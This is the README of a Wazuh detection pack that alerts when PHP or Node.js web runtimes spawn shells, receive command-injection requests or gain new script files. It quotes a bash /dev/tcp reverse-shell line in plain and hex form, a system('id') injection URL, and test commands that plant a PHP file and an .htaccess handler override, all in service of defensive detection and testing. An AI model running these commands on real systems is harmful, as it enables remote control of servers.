




# Web-to-Shell Detection (PHP & Node.js)-Wazuh Integration

## Table of Contents

* [Introduction](#introduction)
* [Prerequisites](#prerequisites)
* [Installation and Configuration](#installation-and-configuration)
    * [Installing the web runtime and auditd](#installing-the-web-runtime-and-auditd)
    * [Initial web runtime configuration](#initial-web-runtime-configuration)
    * [Installing Wazuh (if applicable)](#installing-wazuh-if-applicable)
    * [Initial Wazuh Configuration (if applicable)](#initial-wazuh-configuration-if-applicable)
    * [Using the Integration Files](#using-the-integration-files)
* [Integration Steps](#integration-steps)
* [Integration Testing](#integration-testing)
* [Tuning](#tuning)
* [Sources](#sources)
* [Provenance and Maintenance](#provenance-and-maintenance)

---

### Introduction

A web runtime — PHP-FPM, `mod_php`, or Node.js — should almost never start a new
process. When it does, it is usually the endpoint of a web attack: a webshell,
an OS command injection, or a deserialization/RCE bug such as React2Shell
(CVE-2025-55182, React Server Components, disclosed December 2025). The
integration detects that post-exploitation behaviour, not any specific
vulnerability. A PHP worker rarely needs to run `id`, `curl`, or `/bin/sh`, so
when it does, it is worth an alert.

Wazuh has published guidance on this, notably the
[Web shell attack detection with Wazuh](https://wazuh.com/blog/web-shell-attack-detection-with-wazuh/)
blog post (FIM and auditd for PHP, Sysmon for ASP.NET). The default ruleset has
no ready-made rule for it, though. This integration builds on that guidance and
adds Node.js coverage, tiered severity, hex-aware auditd matching, correlation,
and a `runtests.py` suite. It works across three layers, all mapped to MITRE
ATT&CK:

| Layer | Source | What it catches | Rule IDs |
|-------|--------|-----------------|----------|
| 1. Process execution | auditd `execve` | web account runs a shell, recon tool, downloader, interpreter, or reverse shell | `100500`–`100550` |
| 2. Web requests | nginx/apache access log | command-execution payloads, webshell URLs, `cmd=`-style parameters | `100560`–`100562` |
| 3. File integrity | Wazuh FIM | new `.php`/`.phtml`/`.phar` in the webroot, new `.js` in the app directory, `.htaccess`/`.user.ini` tampering | `100570`–`100572` |

Severity climbs with intent: a bare shell spawn is level 8, an interpreter
running a script file is 10, and inline interpreter code (`python -c`,
`perl -e`, `php -r`, `node -e`), discovery and downloads are 12. Reverse-shell
patterns are 15. Inline code ranks with discovery because it runs a payload
without dropping a file. The script-file rule matches on the binary alone, which
also covers legitimate PHP CLI and cron work, so it sits one tier lower. PHP
`mail()` calling sendmail is a known-good shell spawn and logs at level 3
(`100511`). Three post-exploitation
commands from the same web account inside two minutes escalate to level 14 as a
likely interactive webshell.

Detection uses only stock Wazuh decoders (`auditd`, `web-accesslog`,
`syscheck`), so no custom decoder is needed. A ready-made dashboard for the
resulting alerts ships in `dashboards/web_to_shell.ndjson`.

**Why the service account is the signal.** auditd's `SYSCALL` record carries
the parent PID (`ppid`) along with `pid`, `comm` and `exe`, but not the parent's
name, and Wazuh cannot easily join that PID back to the parent process across
events. The rules therefore key on the *account* the
runtime runs as, used as a proxy for "this came from the web app". That means
PHP-FPM/Apache must run as `www-data` (or `apache`/`nginx`) — the default — and
**Node.js must run under its own dedicated service account**, not as root or a
login user.

---

### Prerequisites

* Wazuh manager 4.x. Developed and tested against 4.14.8.
* Wazuh agent on each web server.
* `auditd` installed and running on each web server (`auditd` + `audispd-plugins`).
* PHP-FPM / `mod_php` running as a dedicated web account (`www-data`, `apache`,
  or `nginx`), and/or Node.js running as its own dedicated service account.
* nginx or Apache writing combined-format access logs, for layer 2.
* Rule IDs `100500`–`100599` free in your custom ruleset.

---

### Installation and Configuration

#### Installing the web runtime and auditd

The monitored software is the web stack you already run. On the web server,
make sure auditd is present, since it supplies layer 1:

```bash
# Debian / Ubuntu
sudo apt install auditd audispd-plugins
# RHEL / Alma / Rocky
sudo dnf install audit
sudo systemctl enable --now auditd
```

#### Initial web runtime configuration

Confirm which account each runtime runs as — the rules key on it:

```bash
ps -o user:16,comm -C php-fpm8.3 | sort -u     # expect www-data / apache / nginx
systemctl show -p User nodeapp.service          # expect a dedicated account, not root
```

If Node.js currently runs as root or as a login user, give it its own account
before deploying this integration, otherwise layer 1 cannot distinguish app
activity from administrator activity.

#### Installing Wazuh (if applicable)

A standard Wazuh 4.x installation is assumed. See the official installation
guide at https://documentation.wazuh.com/current/installation-guide/index.html.

#### Initial Wazuh Configuration (if applicable)

No special manager configuration is needed beyond installing the rule file
described below. On the agent side, the audit log, the web access log, and FIM
must be enabled; the provided `agent/web_to_shell_agent.conf` does all three.

#### Using the Integration Files

**On the Wazuh manager** — install the rules:

```bash
cp ruleset/rules/web_to_shell_rules.xml /var/ossec/etc/rules/web_to_shell_rules.xml
chown wazuh:wazuh /var/ossec/etc/rules/web_to_shell_rules.xml
chmod 640 /var/ossec/etc/rules/web_to_shell_rules.xml
```

Validate before restarting, then apply:

```bash
/var/ossec/bin/wazuh-logtest -v        # paste a sample log line, confirm no XML errors
/var/ossec/bin/wazuh-control restart
grep -iE "ERROR|CRITICAL" /var/ossec/logs/ossec.log | tail
```

**On each web server (Wazuh agent)** — install the auditd rules. Edit the
service-account names at the top of the file first so they match your hosts:

```bash
cp agent/60-web-to-shell.rules /etc/audit/rules.d/60-web-to-shell.rules
augenrules --load
auditctl -l | grep web_exec            # confirm the rules loaded
```

Then merge the collection and FIM block into the agent configuration and
restart it:

```bash
cat agent/web_to_shell_agent.conf >> /var/ossec/etc/ossec.conf
/var/ossec/bin/wazuh-control restart
```

The block adds the auditd log (`log_format` `audit`), the nginx/apache access
log, and real-time FIM on `/var/www` and `/opt/nodeapp`. Adjust those paths to
your webroots and application directories. Managing many agents? Put the same
block in a shared agent group (`/var/ossec/etc/shared/<group>/agent.conf` on the
manager) instead, so it pushes to every agent in the group.

**On the Wazuh dashboard** — import the dashboard:

Stack Management → **Saved objects** → **Import** → select
`dashboards/web_to_shell.ndjson`, leave "Check for existing objects" on, then
open **Dashboards → Web-to-Shell Detection (PHP & Node.js)**. Or from a shell:

```bash
curl -k -u <user>:<password> -X POST \
  "https://<dashboard>:443/api/saved_objects/_import" \
  -H "osd-xsrf: true" -F file=@dashboards/web_to_shell.ndjson
```

The file contains eight visualizations, a saved search and the dashboard, and
references the stock `wazuh-alerts-*` index pattern rather than shipping its
own, so it does not touch your existing index pattern. The dashboard query is
pinned to `rule.groups:web_to_shell`, so every panel is scoped to this
ruleset: total
alerts, the three-layer breakdown, alerts over time by severity, top rules,
MITRE techniques, the executables the web account ran, the files dropped in
monitored paths, top source IPs, and a saved search of the raw alerts.

> **FIM `restrict` syntax:** `restrict` is sregex (OS_Match), not OS_Regex or
> PCRE2, as the syscheck reference documents. `.` is a literal dot and there
> are no escapes, so write `.php$`. A regex-style `\.php$` looks for a real
> backslash in the file name and misses `shell.php`. On 4.14.8, `.php$` alerted
> on `shell.php` and not on `shellXphp`, and `\.php$` alerted only on a file
> literally named `x\.php`. The shipped file uses the documented form.

---

### Integration Steps

Once deployed, data reaches the manager through three independent paths, and
each is handled by a stock decoder:

1. **auditd** records every `execve` and `execveat`, on both the 64-bit and the
   32-bit syscall tables, made by the web service account and tags it
   with the key `web_exec_php` or `web_exec_node`. The agent ships the grouped
   record, the stock `auditd` decoder parses it, and rules `100500`/`100501`
   pick it up by key. Child rules then classify the event by what was run —
   shell, discovery tool, downloader, interpreter, base64, or reverse shell.
2. **The web server access log** is parsed by the stock `web-accesslog` decoder;
   rules `100560`–`100562` match command-execution payloads, successful requests
   to PHP files inside upload directories, and `cmd=`-style parameters. Access
   logs hold the request line only: POST bodies, where most real webshell
   traffic goes, are never logged, and fully percent-encoded or base64 payloads
   get past plaintext patterns. Treat layer 2 as early warning; layer 1 is the
   detection.
3. **FIM** watches the webroot and the Node application directory in real time;
   rules `100570`–`100572` fire when a new PHP/JS file or an `.htaccess` /
   `.user.ini` appears.

One note on the auditd format, because it determines how the rules are written:
auditd writes an argument as a quoted string only when it is printable and free
of spaces and quotes, and as uppercase hex otherwise. A real reverse shell like
`sh -c "bash -i >& /dev/tcp/10.0.0.5/4444 0>&1"` therefore arrives as
`a2=62617368202D69203E26202F6465762F7463702F...`. Rule `100530` matches both the
plain and the hex form; matching only the plain form misses every real reverse
shell.

A second note on rule chaining: the stock rules in `0850-audit_rules.xml`
(`92600` python, `92603` scp, `92604` `ps aux`, `92606` lscpu) use `if_group
audit` and claim those events first. Rules `100520`, `100521`, and `100522`
therefore also chain off those stock IDs and gate on the auditd key, so those
events still reach this ruleset. The same applies to the stock web rules:
`31104` (common web attack) and its 200-response child `31106` claim URLs
containing `wget%`, `cd%20`, `exec%20`, `%0A` and similar, so `100560`–`100562`
also chain off them and the more specific alert wins.

`sample_logs.txt` in this directory contains 40 real-format log lines covering
every rule tier, and can be piped straight into `wazuh-logtest`.

---

### Integration Testing

#### Automated: the Wazuh ruleset test tool

`web_to_shell.ini` is a test file for the core ruleset testing tool
(`ruleset/testing/runtests.py` in `wazuh/wazuh`), with 40 cases covering every
non-frequency rule in the pack. Run it against a throwaway manager:

```bash
# Fetch the test tool from the Wazuh repository and lay it out the way
# runtests.py expects (it reads ./tests/*.ini and ./ruleset relative to CWD).
mkdir -p runner/tests runner/ruleset
for f in runtests.py coverage.py; do
  curl -sSL -o "runner/$f" \
    "https://raw.githubusercontent.com/wazuh/wazuh/v4.14.8/ruleset/testing/$f"
done
cp web_to_shell.ini runner/tests/

docker run -d --name w2s-test \
  -v "$PWD/ruleset/rules/web_to_shell_rules.xml:/var/ossec/etc/rules/web_to_shell_rules.xml:ro" \
  -v "$PWD/runner:/w2s" \
  wazuh/wazuh-manager:4.14.8

docker exec -w /w2s w2s-test /var/ossec/framework/python/bin/python3 \
  runtests.py -t web_to_shell.ini -s
```

Result from a clean 4.14.8 container:

```
- [ File = ./tests/web_to_shell.ini ] ---------
........................................

|          File           |  Passed  |  Failed  |  Status  |
|        --------         | -------- | -------- | -------- |
|./tests/web_to_shell.ini |    40    |    0     |    ✅     |
```

The suite deliberately includes negative cases as well as positive ones:

* **False-positive guards** — `rsync -e ssh` and `GIT_SSH_COMMAND='ssh -i ...'`
  must classify as a plain shell spawn (`100510`), not as a reverse shell.
* **Stock-rule overlap** — python / scp / `ps aux` / lscpu events, which
  `0850-audit_rules.xml` also claims, must still reach these rules.
* **Isolation** — a non-web user's python must stay on the stock rule (`92600`).
* **No alert** — a `404` on a PHP file in an upload directory must *not* fire
  `100561`.
* **Syscall coverage** — the same command via `execveat` and via the 32-bit
  `execve` table must hit the same rule.
* **Known-good** — PHP `mail()` → `sendmail -t -i` (with and without `-f`) lands
  on `100511` at level 3, but `sendmail -t -i;id` must stay on `100510`.
* **Stock web-rule overlap** — payloads that stock `31104`/`31106` also claim
  must still reach `100560`/`100562`.

Rule `100550` is frequency based (3 events in 120 s, correlated on
`audit.uid`), so it is outside what `runtests.py` drives one event at a time; it
is covered by the multi-event logtest suite linked under [Sources](#sources).

#### Manual: a single event through logtest

```bash
/var/ossec/bin/wazuh-logtest
```

Pasting the reverse-shell sample from `sample_logs.txt` gives, verbatim from a
4.14.8 run:

```
**Phase 2: Completed decoding.
	name: 'auditd'
	audit.exe: '/usr/bin/dash'
	audit.key: 'web_exec_php'
	audit.uid: '33'

**Phase 3: Completed filtering (rules).
	id: '100530'
	level: '15'
	description: 'Web-to-shell: reverse shell launched by web runtime (/usr/bin/dash, pid 5006)'
	groups: '['web_to_shell', 'audit', 'web_shell_activity']'
	mitre.id: '['T1505.003', 'T1059.004', 'T1071']'
	mitre.tactic: '['Persistence', 'Execution', 'Command and Control']'
	mitre.technique: '['Web Shell', 'Unix Shell', 'Application Layer Protocol']'
**Alert to be generated.
```

And a web-request payload:

```
**Phase 2: Completed decoding.
	name: 'web-accesslog'
	id: '200'
	srcip: '10.0.0.5'
	url: '/index.php?page=system%28%27id%27%29'

**Phase 3: Completed filtering (rules).
	id: '100560'
	level: '12'
	description: 'Web-to-shell: command execution payload in request from 10.0.0.5: /index.php?page=system%28%27id%27%29'
	mitre.id: '['T1190', 'T1505.003']'
**Alert to be generated.
```

#### Layer 3 (FIM)

FIM cannot be exercised through logtest. Verify it on a live agent by dropping
files into the monitored paths:

```bash
sudo -u www-data tee /var/www/html/uploads/t.php <<< '<?php echo 1;'
sudo -u www-data tee /var/www/html/.htaccess     <<< 'AddType application/x-httpd-php .jpg'
```

Rules `100570` and `100571` fire within a few seconds. On the test deployment a
`.jpg` write and files under `node_modules/` were correctly ignored.

#### End to end, in the dashboard

The dashboard shipped in `dashboards/web_to_shell.ndjson`, running on the test
deployment — 29 alerts across all three layers, the layer breakdown, the
executables the web account ran, and the files caught by FIM:



The two `100550` rows in the alert list are worth a look: one correlation alert
for uid 33 (PHP) and one for uid 999 (Node). The rule's `same_field` on
`audit.uid` is what keeps the two accounts from correlating into each other.

The stock views work too. Dashboard → **Threat Hunting**, filter
`rule.groups: web_to_shell`. Triggering a benign discovery command on an agent
is enough to confirm the pipeline:

```bash
sudo -u www-data id        # fires rule 100520
```

A populated Threat Hunting view from an earlier run of the same deployment —
17 alerts across all three layers, 11 of them level 12 or higher:



The events list, showing every layer firing — FIM drops (`100570`–`100572`),
request payloads (`100560`–`100562`), the interactive-webshell correlation
(`100550`, level 14), a netcat reverse shell (`100531`, level 15) and discovery
commands (`100520`):



Expanded alert fields, showing the MITRE enrichment and the stock decoders
supplying the data:



---

### Tuning

Expect to tune rule **`100510`** (shell spawned by web runtime, level 8) first,
because some applications legitimately shell out:

* **PHP `mail()`** runs `sendmail_path` through `/bin/sh -c`. Rule `100511`
  already drops the default `/usr/sbin/sendmail -t -i [-f<sender>]` call to
  level 3. The match covers the whole argument, so an appended command still
  alerts. Edit its hex if your `sendmail_path` differs.
* **ImageMagick / Ghostscript delegates and wkhtmltopdf** (image and document
  processing).
* **Git-based deploy hooks** (`git pull` from a webhook) and **Composer**, when
  run as the web user.
* **Cron-driven PHP scripts** in the web user's crontab hit the interpreter rule
  `100522`. On Debian/Ubuntu, cron sets the audit login UID (`audit.auid`) while
  PHP-FPM workers leave it unset (`4294967295`), which makes a clean tuning
  field.

Silence a known-good command with a level-0 child rule in your local rules
rather than editing this file:

```xml
<rule id="100590" level="0">
  <if_sid>100510</if_sid>
  <field name="audit.exe" type="pcre2">/usr/bin/convert$</field>
  <description>Web-to-shell: known-good ImageMagick call (ignored)</description>
</rule>
```

Rule `100522` also treats the PHP CLI as a web-spawned interpreter — drop `php`
from its regex if your application calls `php` as a subprocess on purpose.

---

### Sources

* Wazuh auditd integration,
  https://documentation.wazuh.com/current/user-manual/capabilities/system-calls-monitoring/index.html
* Wazuh File Integrity Monitoring,
  https://documentation.wazuh.com/current/user-manual/capabilities/file-integrity/index.html
* Wazuh custom rules,
  https://documentation.wazuh.com/current/user-manual/ruleset/custom.html
* MITRE ATT&CK, https://attack.mitre.org/ — T1505.003, T1059.004, T1190, T1105,
  T1140, T1546
* Web shell attack detection with Wazuh (Wazuh blog, January 2023),
  https://wazuh.com/blog/web-shell-attack-detection-with-wazuh/
* Lab environment (vulnerable PHP and Node apps behind nginx; exploitable by
  design, so run it only in an isolated network, never internet-facing, and
  never on a manager that serves production agents), the generator
  for the sample logs and the multi-event logtest suite that covers the
  frequency rule: https://github.com/SAMsploit1/shellcatch
* Write-up describing the detection design: https://samsploit1.github.io/shellcatch/

---

## Provenance and Maintenance

* **Original source** — written from scratch against the stock Wazuh `auditd`,
  `web-accesslog` and `syscheck` decoders. No third-party ruleset was adapted or
  copied. Published independently at
  https://github.com/SAMsploit1/shellcatch before being contributed here.
* **Adapted by** — Vigan Bytyqi (GitHub: SAMsploit1)
* **Tested versions** — rules: Wazuh manager 4.14.8, 40/40 automated cases via
  `runtests.py`. Layer 3 (FIM) and the end-to-end alert path: Wazuh 4.14
  single-node deployment with Ubuntu 24.04 agents running PHP-FPM 8.3 and
  Node.js 20. Dashboard: exported from a Wazuh 4.14.4 single-node stack
  (OpenSearch Dashboards 2.19.4) and re-imported to confirm it loads on its own.
  Uses only stock decoders, so the rules are expected to hold across the 4.x
  line.
* **Maintainer** — Vigan Bytyqi (GitHub: SAMsploit1)
* **Support boundary** — community maintained, provided as is.
